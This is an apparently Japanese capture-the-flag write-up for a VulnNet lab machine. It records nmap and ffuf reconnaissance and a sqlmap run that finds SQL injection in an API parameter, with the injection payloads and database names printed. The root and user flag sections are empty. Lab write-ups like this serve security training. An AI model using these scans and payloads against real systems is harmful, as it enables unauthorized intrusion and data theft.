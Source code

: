 ### Enum
```
nmap -Pn -sVC 10.10.133.73 -p 22,80 
Nmap scan report for vulnnet.thm (10.10.133.73)
Host is up.

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp filtered http
```
```
nmap -Pn -sVC 10.10.133.73 -p 22,80 -vv -T4
Host is up, received user-set (0.39s latency).

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bb2ee6cc79f47d682c11bc4b631908af (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQRQ5sGPZniwdg1TNW71UdA6dc2k3lpZ68EnacCUgKEqZT7sBvppGUJjSAMY7aZqdZJ0m5N9SQajB9iW3ZEKHM5qtbXOadbWkRKp3VrqtZ8VW1IthLa2+oLObY2r1qep6O2NqrghQ/yVCbJYF5H8BsTtjCVNBeVSzf9zetwUviO6xfqIRO3iM+8S2WpZwKGtrBFvA9RaBsqLBGB1XGUjufKxyRUzOx1J2I94Xhs/bDcaOV5Mw6xhSTxgS3q6xVmL6UU3hIbpiXzYcj2vxuAXXszyZCM4ZkxmQ1fddQawxHfmZRnqxVogoHDsOGgh9tpQsc+S/KTrYQa9oFEVARV70x
|   256 8061bf8caad14d4468154533edeb82a7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEg9Hw4CIelacGVS0U+uFcwEj183dT+WrY/tvJV4U8/1alrGM/8gIKHEQIsU4yGPtyQ6M8xL9q7ak6ze+YsHd2o=
|   256 878604e9e0c0602aab878e9bc705351c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJJDCCks5eMviLJyDQY/oQ3LLgnDoXvqZS0AxNAJGv9T
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Soon &mdash; Fully Responsive Software Design by VulnNet
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webサーバ。Fuzzしたけど空振りなので、サブドメインを探す。

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://vulnnet.thm -H "HOST:FUZZ.vulnnet.thm" -fs 65
________________________________________________

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://vulnnet.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.vulnnet.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 65
________________________________________________

[Status: 200, Size: 19316, Words: 1236, Lines: 391, Duration: 405ms]
    * FUZZ: blog

[Status: 200, Size: 26701, Words: 11619, Lines: 525, Duration: 415ms]
    * FUZZ: shop

[Status: 200, Size: 18, Words: 4, Lines: 1, Duration: 610ms]
    * FUZZ: api

[Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 5123ms]
    * FUZZ: admin1

:: Progress: [4989/4989] :: Job [1/1] :: 69 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/236607640-bfe5efd8-044a-4373-bf3b-62dd0be28535.png)

![image](https://user-images.githubusercontent.com/6504854/236607654-5b3745ca-e0d5-405e-9157-5efc5e5ecd24.png)

![image](https://user-images.githubusercontent.com/6504854/236607673-c57f2473-4188-4800-a3c4-cded88425095.png)

![image](https://user-images.githubusercontent.com/6504854/236607683-bff21815-5b2e-40c2-829e-6b3996937bda.png)

こんな感じで、問題からadmin1が最優先だろというあたりで。（これが Rabbit Hole）

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://admin1.vulnnet.thm/FUZZ -fc 307

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://admin1.vulnnet.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 307
________________________________________________

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 359ms]
    * FUZZ: en

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 346ms]
    * FUZZ: vendor

[Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 352ms]
    * FUZZ: fileadmin

[Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 409ms]
    * FUZZ: typo3temp

```

![image](https://user-images.githubusercontent.com/6504854/236608456-b5108f57-ea21-4493-b17b-1de6d3a1fc50.png)

![image](https://user-images.githubusercontent.com/6504854/236608468-f55e3828-3e63-42e5-aca9-f0c497434498.png)

![image](https://user-images.githubusercontent.com/6504854/236608493-e1d069ea-db66-40ec-b6f9-b3875989d983.png)

![image](https://user-images.githubusercontent.com/6504854/236608515-e0654256-c3b7-4603-ad2e-9cb2bda34e86.png)

なんかのCMSらしい。

![image](https://user-images.githubusercontent.com/6504854/236608679-03abb9be-8dcf-4396-9f85-0c3906137830.png)

デフォルトの設定のままでログイン口がみえる。admin/adminで入れない。古いバージョンだとRCEあるっぽいけど、履歴から割と最近のバージョン10以上っぽい。
めぼしいエクスプロイトなし。どうしたものか。どっかからユーザ探す？。

![image](https://user-images.githubusercontent.com/6504854/236609100-b07925ae-8b0d-4f74-bd90-6d4999326ca8.png)

このパラメータにSQLiがある。ここ探すのが一番時間かかった。

![image](https://user-images.githubusercontent.com/6504854/236610784-c9de7923-30a9-4d4c-a1db-3501d3b52838.png)

![image](https://user-images.githubusercontent.com/6504854/236610823-3d182be4-1d0f-4666-a17d-75f3f39fbec4.png)

```
sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=4 -p blog --batch --dbs                 
        ___
       __H__                                                                                                              
 ___ ___[)]_____ ___ ___  {1.7.2#stable}                                                                                  
|_ -| . [.]     | .'| . |                                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[16:47:03] [INFO] resuming back-end DBMS 'mysql' 
[16:47:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=5 AND 7604=7604

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blog=5 AND (SELECT 7299 FROM (SELECT(SLEEP(5)))ituG)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-4953 UNION ALL SELECT NULL,NULL,CONCAT(0x7171707671,0x4850476a6f59766d4e696c5849744b53544e506b495773795a667544496444614762415a4f446b68,0x7178767a71)-- -
---
[16:47:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[16:47:04] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin

[16:47:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/api.vulnnet.thm'
```

### Flag(User)

### Flag(Root)


地震はくるわ、風が強すぎるわ、隠れて生きのびていこ。
